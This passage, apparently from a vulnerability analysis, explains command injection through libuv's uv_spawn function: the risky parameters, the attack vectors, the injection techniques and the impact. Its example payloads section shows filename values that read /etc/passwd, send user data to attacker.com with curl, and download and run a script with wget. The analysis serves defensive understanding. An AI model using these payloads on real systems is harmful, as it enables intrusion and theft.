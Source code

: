 `uv_spawn` takes parameters that define the executable to run (`file`) and its arguments (`args`). If the application constructs these parameters using unsanitized user input, it creates the opportunity for command injection.

Key aspects of `uv_spawn` relevant to this vulnerability:

* **`file` parameter:** Specifies the executable to run. If this is dynamically determined based on user input without validation, it could lead to executing unintended programs.
* **`args` parameter:** An array of strings representing the arguments passed to the executable. This is the most common injection point, as demonstrated in the examples.
* **`flags` parameter:** While not directly related to the injection itself, flags like `UV_PROCESS_DETACHED` can influence the impact of the injected command.
* **`stdio` parameter:**  Redirection of standard input/output/error streams can be manipulated in conjunction with command injection for more sophisticated attacks.

#### 4.3 Attack Vector Analysis

An attacker can exploit this vulnerability by providing malicious input through any interface where the application accepts user data that is subsequently used in the construction of commands for `uv_spawn`. This could include:

* **Command-line arguments:** As shown in the initial example.
* **Input fields in a graphical user interface (GUI).**
* **Data received from network requests (e.g., web forms, API calls).**
* **Configuration files or environment variables controlled by the user.**

The attacker's goal is to inject shell metacharacters or commands that will be interpreted by the shell when the child process is spawned. Common injection techniques include:

* **Command Chaining:** Using characters like `;`, `&`, `&&`, `||` to execute multiple commands sequentially or conditionally.
* **Command Substitution:** Using backticks `` `command` `` or `$(command)` to execute a command and use its output.
* **Redirection:** Using `>`, `<`, `>>` to redirect input and output streams.
* **Piping:** Using `|` to pipe the output of one command to the input of another.

**Example Attack Payloads:**

* **Filename:** `; cat /etc/passwd` (Attempts to read the password file)
* **Filename:** `; curl attacker.com/steal_data -d "$(whoami)"` (Attempts to exfiltrate the current user)
* **Filename:** `; wget -O /tmp/evil_script attacker.com/evil.sh && chmod +x /tmp/evil_script && /tmp/evil_script` (Downloads and executes a malicious script)

#### 4.4 Impact Assessment

The impact of a successful command injection vulnerability can be **critical**, potentially leading to:

* **Arbitrary Code Execution:** The attacker can execute any command with the privileges of the application process.
* **Data Breach:** Sensitive data stored on the server or accessible to the application can be stolen.
* **System Compromise:** The attacker can gain control of the server, potentially installing backdoors, creating new user accounts, or disrupting services.
* **Denial of Service (DoS):** Malicious commands can consume system resources, leading to application or system crashes.
* **Privilege Escalation:** If the application runs with elevated privileges, the attacker can gain those privileges.
* **Lateral Movement:**  From the compromised server, the attacker might be able to access other systems on the network.
